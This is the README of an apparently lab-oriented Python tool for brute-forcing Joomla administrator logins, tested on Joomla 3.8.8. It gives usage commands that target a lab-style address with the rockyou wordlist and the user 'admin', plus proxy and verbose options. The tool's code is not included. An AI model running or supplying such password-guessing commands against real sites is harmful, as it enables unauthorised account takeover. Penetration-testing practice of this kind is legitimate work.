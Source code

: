 # joomla-bruteforce
Joomla login bruteforce

Tested on Joomla! 3.8.8

Usage:

	python3 joomla-brute.py -u http://10.10.10.150 -w /usr/share/wordlist/rockyou.txt -usr admin
	
	chmod +x joomla-brute.py
	./joomla-brute.py -u http://10.10.10.150 -w /usr/share/wordlist/rockyou.txt -usr admin

Optional parameters:
	
	-p or --proxy http://127.0.0.1:8080
	-v or --verbose
